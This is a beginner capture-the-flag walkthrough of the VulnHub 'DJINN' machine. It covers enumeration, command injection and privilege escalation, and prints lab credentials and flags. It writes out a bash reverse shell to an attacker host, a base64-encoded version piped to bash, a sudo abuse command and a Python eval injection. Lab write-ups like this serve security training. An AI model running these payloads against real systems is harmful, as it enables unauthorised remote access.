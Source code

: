 ```yaml
---
categories: [VulnHub, Walkthrough]
tags: [PrivEsc]
---
```

# DJINN



## **Description ⤵️**


💡 [DJINN](https://www.vulnhub.com/entry/djinn-1,397/)

- Level: Beginner-Intermediate
- flags: user.txt and root.txt
- Description: The machine is VirtualBox as well as VMWare compatible. The DHCP will assign an IP automatically. You'll see the IP right on the login screen. You have to find and read two flags (user and root) which is present in user.txt and root.txt respectively.
- Format: Virtual Machine (Virtualbox - OVA)
- Operating System: Linux


Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/DJINN/Untitled.png)

```bash
IP : 10.0.2.12
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%202.png)

```bash
OPEN PORTS >
21  FTP (Anonymous Login Allowed)
22  filtered ssh (Means there is a way to open this may be through knocking ports)
1337 waste ? [I have to check it through netcat]
7331 http (may be vulnerable)
```

---

## FTP Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%203.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%204.png)

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%206.png)

After Executing id command I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%207.png)

Now after many hardwork I got to know that for achiving reverse shell I need to decode the encoded code inside the Execute command → 

After so much of hardwork I got to know that base 64 encoded code is executing which decoding it inside the command injection : →

```bash
payload →
bash -i >& /dev/tcp/10.0.2.10/4444 0>&1
Execute →
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg==" | base64 -d | bash
```

Now in return I got this →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%209.png)

```bash
nitish:p4ssw0rdStr3r0n9
```

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2010.png)

```bash
user.txt → 10aay8289ptgguy1pvfa73alzusyyx3c
```

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2011.png)

Now lets exploit →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2012.png)

Lets see how sam can lead us to sam →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2013.png)

.pyc file in `/home/sam/.pyc` After tranfering to attackers machine when I opened it I got to know this part →

```bash
def guessit():
		num = randint(1, 101)
		print("Choose a number between 1 to 100: ")
		try:
		    s = input("Enter your number: ")
		    if s == num:  <------ This part num
		        system("/bin/sh")
		    else:
		        print("Better Luck next time")
		except:
		    print("Slow claps again")
```

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2014.png)

Root !! got it →

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2015.png)

![Untitled](/Vulnhub-Files/img/DJINN/Untitled%2016.png)

proof.txt → `33eur2wjdmq80z47nyy4fx54bnlg3ibc`

---

# **Summery Notes →**

```bash
> **bash** -i >**&** **/**dev**/**tcp**/**10.0.2.10**/**4444 **0>&**1 
> **echo** YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== **|** base64 -d **|** **bash** 
> **sudo** -u sam **/**usr**/**bin**/**genie -cmd **whoami** 
> **eval** **(**'__import__("os").system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjIuMTAvNDQ0NCAwPiYxCg== | base64 -d | bash")'**)**
```

---